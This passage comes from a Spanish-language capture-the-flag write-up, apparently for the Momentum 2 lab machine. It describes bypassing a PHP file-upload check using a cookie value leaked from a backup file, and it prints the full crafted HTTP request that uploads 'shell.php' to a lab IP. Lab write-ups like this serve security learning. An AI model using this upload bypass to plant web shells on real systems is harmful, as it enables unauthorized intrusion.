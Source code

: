 En principio tenemos esto, cuando enviamos esta peticion nos devuelve lo siguiente:
![img](/assets/img/post/momentum2/res.png)

Para que nos deje subir archivos formato php, tenemos que cumplir la condicion del if. 

Tenemos que editar la peticion, para que cumpla lo que se requiere en el archivo php.bak que vimos anteriormente, dice que la cookie tiene que ser igual a admin=&G6u@B6uDXMq&Ms[letra mayuscula desconocida].

Y nos tiene que devolver el valor val1d.

Ya editada la peticion, queda asi:
```
POST /ajax.php HTTP/1.1
Host: 192.168.1.10
Content-Length: 190
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvvNiH8PdjxlcglI6
Accept: */*
Origin: http://192.168.1.10
Referer: http://192.168.1.10/dashboard.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,es-US;q=0.8,es;q=0.7
Cookie: admin=&G6u@B6uDXMq&Ms
Connection: close

------WebKitFormBoundaryvvNiH8PdjxlcglI6
Content-Disposition: form-data; name="secure"

val1d           
------WebKitFormBoundaryvvNiH8PdjxlcglI6
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php


------WebKitFormBoundaryvvNiH8PdjxlcglI6--
```

